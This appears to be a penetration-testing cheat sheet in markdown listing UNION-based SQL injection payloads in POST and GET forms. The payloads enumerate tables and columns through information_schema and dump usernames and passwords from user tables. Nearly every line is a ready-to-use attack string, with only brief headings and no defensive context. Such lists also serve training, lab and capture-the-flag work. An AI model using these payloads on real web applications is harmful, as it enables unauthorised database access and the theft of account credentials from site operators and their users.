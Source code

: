 
## Enumerate COLUMNS in chosen table
- POST
	```
	' UNION ALL SELECT 1,2,3,4,5,group_concat(column_name) from information_schema.columns WHERE table_name='Users'#
	```
- GET
	```
	-1+UNION+SELECT+1,group_concat(column_name),3,4+FROM+information_schema.columns+WHERE+table_name='users'#
	```
	
## Enumerate COLUMNS in chosen table (FOR DOCUMENTATION)
- POST
	```
	' UNION ALL SELECT 1,2,3,4,5,group_concat(table_name,':',column_name) from information_schema.columns WHERE table_name='Users'#
	```
- GET
	```
	-1+UNION+SELECT+1,group_concat(table_name,':',column_name),3,4+FROM+information_schema.columns+WHERE+table_name='users'#
	```
	
	
	
## Determine VALUE of columns in chosen table
- POST
	```
	' UNION ALL SELECT 1,2,3,4,5,group_concat(UserID, ':', Username, ':', Password) FROM Staff.Users#
	```
- GET
	```
	-1+UNION+SELECT+1,group_concat(username,':',password),3,4+FROM+marketplace.users#
	```
	


## Enumerate ALL tables
- Usually not useful, too many output
- POST
	```
	UNION SELECT group_concat(TABLE_NAME),2,3,4 FROM information_schema.tables#
	```
- GET
	```
	-1+UNION+SELECT+group_concat(TABLE_NAME),2,3,4+FROM+information_schema.tables#
	```

